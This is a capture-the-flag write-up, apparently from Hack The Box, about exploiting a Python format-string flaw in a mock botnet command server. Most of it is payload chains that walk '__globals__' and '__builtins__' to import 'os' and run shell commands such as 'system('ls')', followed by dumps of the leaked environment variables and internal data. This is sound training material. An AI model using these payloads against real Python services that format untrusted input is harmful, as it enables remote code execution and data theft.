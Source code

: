 > We successfully hacked into the secret Git server of the HideAndSec,
> and we found the source code of this Python script being used in remote,
> can you help us exploit it, gather their access credentials and arrest these criminals?

> Author: **[mxrch][author-profile]**

## Interacting with the CC

## The code

```python
text = interface.get_input()
requested_commands = [fname for _, fname, _, _ in Formatter().parse(text) if fname]
secure_commands = SecureCommands(requested_commands)
```

```python
def __init__(self, requested_commands):
    self.requested_commands = requested_commands

    # I saw this post which was saying that using a dispatcher to use
    # functions from a dictionary is pretty safe
    # https://softwareengineering.stackexchange.com/a/182095

    self.dispatcher = {
        "whoami": self.whoami,
        "get_time": self.get_time,
        "get_version": self.get_version
    }

    self.verify_commands()

def verify_commands(self):
    for cmd in self.requested_commands:
        if cmd == "debug":
            import pdb; pdb.set_trace()
        if cmd in self.dispatcher and callable(self.dispatcher[cmd]):
            self.dispatcher[cmd] = self.dispatcher[cmd]()
```

They could have stored the results and served plain strings, instead:

```python
# To optimize resources, we only call functions when they are requested
```

## Exploiting the format string

```python
heyhey {whoami.__init__}
heyhey {whoami.__globals__['__builtins__'].__import__('os').getuid}
heyhey {whoami.__init__.__class__.__bases__[0].__subclasses__()}
heyhey {whoami.__init__.__globals__["__builtins__"]}
heyhey {whoami.__init__.__globals__['__builtins__']['__import__']('os')}
heyhey {whoami.__init__.__globals__['__builtins__']['__import__']('os').system('ls')}
```

For the parser, in `{whoami.__globals__}`, the key is `whoami`.

```python
heyhey {whoami.__globals__}
# heyhey {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7de7901340>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctf/main.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from '/usr/local/lib/python3.8/os.py'>, 'subprocess': <module 'subprocess' from '/usr/local/lib/python3.8/subprocess.py'>, 'socketserver': <module 'socketserver' from '/usr/local/lib/python3.8/socketserver.py'>, 'datetime': <class 'datetime.datetime'>, 'Formatter': <class 'string.Formatter'>, 'Station': <class '__main__.Station'>, 'SecureCommands': <class '__main__.SecureCommands'>, 'SecureBridge': <class '__main__.SecureBridge'>, 'ServerContext': <class '__main__.ServerContext'>, 'address': ('0.0.0.0', 1337), 'server': <__main__.ServerContext object at 0x7f7de77cb940>}
```

The aim is to chain the exploit until we reach gold! The chain has to be
structured so that the parser identifies the key as "whoami", to maintain
the match `"whoami" => SecureCommands.whoami`.

```python
{whoami.__globals__[os].environ}
# environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': 'miscvipere-413156-6f7c57c9cf-pjjgh', 'LANG': 'C.UTF-8', 'GPG_KEY': 'E3FF2839C048B25C084DEBE9B26995E310250568', 'PYTHON_VERSION': '3.8.11', 'PYTHON_PIP_VERSION': '21.1.3', 'PYTHON_GET_PIP_URL': 'https://github.com/pypa/get-pip/raw/a1675ab6c2bd898ed82b1f58c486097f763c74a9/public/get-pip.py', 'PYTHON_GET_PIP_SHA256': '6665659241292b2147b58922b9ffe11dda66b39d52d8a6f3aa310bc1d60ea6f7', 'KUBERNETES_SERVICE_PORT': '443', 'KUBERNETES_SERVICE_PORT_HTTPS': '443', 'KUBERNETES_PORT': 'tcp://10.245.0.1:443', 'KUBERNETES_PORT_443_TCP': 'tcp://10.245.0.1:443', 'KUBERNETES_PORT_443_TCP_PROTO': 'tcp', 'KUBERNETES_PORT_443_TCP_PORT': '443', 'KUBERNETES_PORT_443_TCP_ADDR': '10.245.0.1', 'KUBERNETES_SERVICE_HOST': '10.245.0.1', 'HOME': '/home/ctf'})
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
# {'bank_accounts': {'official': 10000, 'offshore': 1983388028}, 'total_infected': 275470559, 'viperebot_new_victims_pairs_ids': ['4e1a50c6-9eab-47d0-b268-89c4b70402ce', '825bd6da-eacc-4090-b537-02598e022694', 'fb63b301-58a1-456a-a47b-f43e253b7ada', '7b1d2d11-1394-48e5-8f37-93f0df979736', '226bca53-e670-4cc7-bfe5-8fa64f9a0d67']}}
{whoami.__globals__[server].__dict__[RequestHandlerClass].__dict__}
# {'__module__': '__main__', 'get_loaded_commands': <function Station.get_loaded_commands at 0x7f9177cf65e0>, 'get_input': <function Station.get_input at 0x7f9177cfb820>, 'print': <function Station.print at 0x7f9177cfb8b0>, 'handle': <function Station.handle at 0x7f9177cfb940>, '__doc__': None}
{whoami.__globals__[SecureCommands].__dict__}
{whoami.__globals__[SecureCommands].__dict__[verify_commands].__code__}
```

```
ValueError: Only '.' or '[' may follow ']' in format field specifier
```

[author-profile]: https://app.hackthebox.com/users/181024
[stackoverflow]: https://softwareengineering.stackexchange.com/a/182095
